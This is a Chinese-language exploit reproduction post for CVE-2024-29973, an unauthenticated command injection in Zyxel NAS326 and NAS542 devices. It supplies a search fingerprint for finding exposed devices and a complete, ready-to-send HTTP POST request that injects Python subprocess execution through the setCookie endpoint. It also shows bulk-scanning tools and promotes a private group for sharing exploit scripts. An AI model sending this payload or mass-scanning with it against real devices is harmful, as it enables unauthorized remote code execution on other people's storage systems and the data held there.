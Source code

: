 #  【漏洞复现】Zyxel NAS设备 setCookie 未授权命令注入漏洞(CVE-2024-29973)   
 骇客安全   2025-04-19 03:40  
  
**0x01 产品简介**  
  
Zyxel-NAS 是指由 Zyxel Communications Corporation（合勤科技股份有限公司）开发和生产的网络附加存储（Network Attached Storage，简称 NAS）设备。NAS 是一种专门用于存储和共享文件的设备，它通过网络连接到计算机、服务器或其他设备，提供集中式的文件存储和访问功能。  
  
  
**0x02 漏洞概述**  
  
Zyxel NAS326 V5.21(AAZF.17)C0之前版本、NAS542 V5.21(ABAG.14)C0之前版本存在操作系统命令注入漏洞，该漏洞源于setCookie参数中存在命令注入漏洞，从而导致未经身份验证的远程攻击者可通过HTTP POST请求来执行某些操作系统 (OS) 命令。  
  
  
**0x03 搜索语法**  
```
body="/cmd,/ck6fup6/user_grp_cgi/cgi_modify_userinfo"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKQjWHb9JHqq1xwAsB6JWYMYMDmKkqNtWGfEycx9oxuYK7ZiaPcbkOLmfV3jZX5C3GvKSq1P6icCFkQ/640?wx_fmt=png&from=appmsg "")  
  
  
**0x04 漏洞复现**  
```
POST /cmd,/simZysh/register_main/setCookie HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHHaZAYecVOf5sfa6
 
------WebKitFormBoundaryHHaZAYecVOf5sfa6
Content-Disposition: form-data; name="c0"
 
storage_ext_cgi CGIGetExtStoInfo None) and False or __import__("subprocess").check_output("id", shell=True)#
------WebKitFormBoundaryHHaZAYecVOf5sfa6--
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKQjWHb9JHqq1xwAsB6JWYMGsgV9KNNjqaCGzudPZ2jNt5mZvTOMdbIVodJmjzRgH9zwGNEZ8icibRA/640?wx_fmt=png&from=appmsg "")  
  
  
**0x05 工具批量**  
  
nuclei  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKQjWHb9JHqq1xwAsB6JWYMR4bXqcHumf8ad4b4nxUWk40ov0ibeiasiaQOsONicx6ia5lEcibcQSUGTbicQ/640?wx_fmt=png&from=appmsg "")  
  
afrog  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKQjWHb9JHqq1xwAsB6JWYMSUASqYiaVb5mg6Ricl6DXTS0N6SgQKpff2ET5TyBT1wf62qSNd6QFQug/640?wx_fmt=png&from=appmsg "")  
  
xray  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKQjWHb9JHqq1xwAsB6JWYMvLxqR8R6ZbrLqrJ1KJWvy7Zg3IeFZgSK6AL5gEozIHNNribIsdkpCPA/640?wx_fmt=png&from=appmsg "")  
  
POC脚本获取  
  
请使用VX扫一扫加入内部POC脚本分享圈子  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKQjWHb9JHqq1xwAsB6JWYMuXiaXibicEcfvzGQ8RGA92RictFOTiceecibELDK8JNAic6JgMN8icJY3Yzib3w/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
